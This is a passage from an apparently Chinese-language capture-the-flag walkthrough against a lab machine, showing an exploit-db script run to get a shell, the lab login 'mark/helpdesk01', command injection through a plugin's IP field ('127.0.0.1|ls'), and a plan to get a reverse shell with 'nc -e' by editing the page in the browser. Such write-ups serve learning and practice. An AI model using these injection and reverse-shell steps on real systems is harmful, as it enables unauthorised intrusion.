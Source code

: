 ```
python3 /usr/share/exploitdb/exploits/php/webapps/50110.py
```



输入IP 和用户名 密码 就可以getshell

```
IP：192.168.81.143 （就是靶机的ip）
用户名：mark
密码：helpdesk01
```

![image-20220317144402511](https://gitee.com/xxb667/img/raw/master/img/image-20220317144402511.png)

# 4.提权

## 4.1 远程连接

查看内核版本

```
lsb_release -a
uname -a
```

![image-20220317144552596](https://gitee.com/xxb667/img/raw/master/img/image-20220317144552596.png)

打算漏洞提权 但是执行命令会话直接断开



切换另外一种办法：

这个插件存在命令执行漏洞

抓包在输入IP 的地方加上  

```
| ls -al
```

 可以看到命令已经成功执行。

```
127.0.0.1|ls
```

![image-20220317150233564](https://gitee.com/xxb667/img/raw/master/img/image-20220317150233564.png)

![image-20220317150359263](https://gitee.com/xxb667/img/raw/master/img/image-20220317150359263.png)

看看可不可以直接使用nc -e获得远程shell

- 因为输入限制
- 我们通过F12
- 直接将我们想要输入的命令输入到html界面中
- 提交获得shell。
